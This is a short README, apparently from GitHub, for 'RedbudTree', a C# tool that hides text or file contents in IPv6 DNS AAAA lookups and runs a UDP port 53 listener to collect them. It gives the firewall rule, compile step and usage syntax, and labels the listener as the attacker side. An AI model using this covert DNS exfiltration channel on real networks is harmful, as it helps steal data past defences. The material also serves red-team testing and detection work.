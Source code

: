 # RedbudTree
DNS IPv6 Request Listener (UDP Port 53) for Detecting Exfiltration DATA via IPv6 DNS AAAA Record Requests.

i will Publish article for this tool soon.

step 1:         
/// for using "Listening Mode" UDP Port 53 should be opened before using this tool.         
/// windows command for opening UDP port 53 is :  
/// netsh advfirewall firewall add rule name="UDP 53" dir=in action=allow protocol=UDP localport=53

Note: step 1 is ((Dumping DATA via IPv6 Requests , attacker side))

step 2:         
/// Compiling C# Code.         
/// windows command for this is :  
/// csc.exe /out:RedbudTree.exe  RedbudTree.cs 


step 3:         
/// RedbudTree.exe Help         
/// windows command for this is :  

/// Syntax 1: Creating Exfiltration DATA via IPv6 Address and Nslookup.         
/// Syntax 1: RedbudTree.exe "AAAA" "Text"  
/// Example1: RedbudTree.exe AAAA "this is my test" 

/// Syntax 2: Creating Exfiltration DATA via IPv6 Address and Nslookup by Text Files.         
/// Syntax 2: RedbudTree.exe "AAAA" "FILE" "TextFile.txt"  
/// Example2: RedbudTree.exe AAAA FILE "TextFile.txt" 

/// Syntax 3: RedbudTree with Listening Mode          
/// Syntax 3: RedbudTree.exe  
Note: syntax 3 is ((Dumping DATA via IPv6 Requests , attacker side))


